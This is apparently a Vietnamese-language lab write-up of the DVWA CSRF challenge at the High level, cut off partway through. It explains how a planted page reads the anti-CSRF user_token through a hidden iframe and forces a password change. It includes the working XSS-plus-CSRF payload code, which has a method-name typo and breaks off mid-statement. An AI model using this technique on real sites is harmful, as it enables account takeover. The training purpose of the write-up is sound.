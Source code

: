 tương tự các bài trước trong mục đổi mật khẩu mình không cần nhập mật khẩu cũ mà chỉ cần nhập mật khẩu mới và confirm

- mình đổi mật khẩu sang **pwned** và thành công
- quan sát thấy có giá trị token gửi kèm theo trên URL

![image](https://hackmd.io/_uploads/BJCFI2Hp6.png)

và Ctrl + U mình thấy có giá trị user_token trên form đăng nhập và giá trị này được gửi đến server qua URL

![image](https://hackmd.io/_uploads/B1AMH2BaT.png)

- và mình kiểm tra lại với Test Credentials với mật khẩu là pwned và thành công cùng với đó quan sát thấy trường SameSite cookie ở đây không có và mặc định nó sẽ là Lax

![image](https://hackmd.io/_uploads/SJY_thBTa.png)

và như đoạn code trên hệ thống sẽ kiểm tra token trước khi đổi mật khẩu nếu token đúng thì chúng ta có thể đổi được password luôn mà không check trường Referer như bài Medium nữa

- vậy chúng ta cần tìm cách bypass giá trị token này
- với giá trị origin trong header mình đoán trang web có dùng CORS nên việc viết 1 trang html rồi deploy lên github pages sẽ không thể lấy được dữ liệu token được từ trang localhost dvwa nên tương tự bài Medium mình sẽ cố gắng đẩy đoạn trang html độc hại lên server của dvwa và gửi cho người dùng click vào

### Khai thác

- đầu tiên để lấy được token chúng ta cần thực hiện đoạn script sau

```htmlembedded!
 doc.getElementByName("user_token")[0].value
```

![image](https://hackmd.io/_uploads/HkFZR3HpT.png)

với file html có nội dung như sau mình sẽ store và trang web chứa lỗ hổng XSS

```htmlembedded!
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
  </head>
  <body>
    <h1>Đây là webshell của Cường</h1>
    <iframe
      id="myFrame"
      src="http://localhost/dvwa/vulnerabilities/csrf"
      style="visibility: hidden"
      onload="maliciousPayload()"
    ></iframe>
    <script>
      function maliciousPayload() {
        console.log("start");
        var iframe = document.getElementById("myFrame");
        var doc =
          iframe.contentWindow.contentDocument || iframe.contentWindow.document;
        var token = doc.getElementByName("user_token")[0].value;
        const http = new XMLHttpRequest();
        const url =
          "http://localhost/dvwa/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change&user_token=" +
          token +
```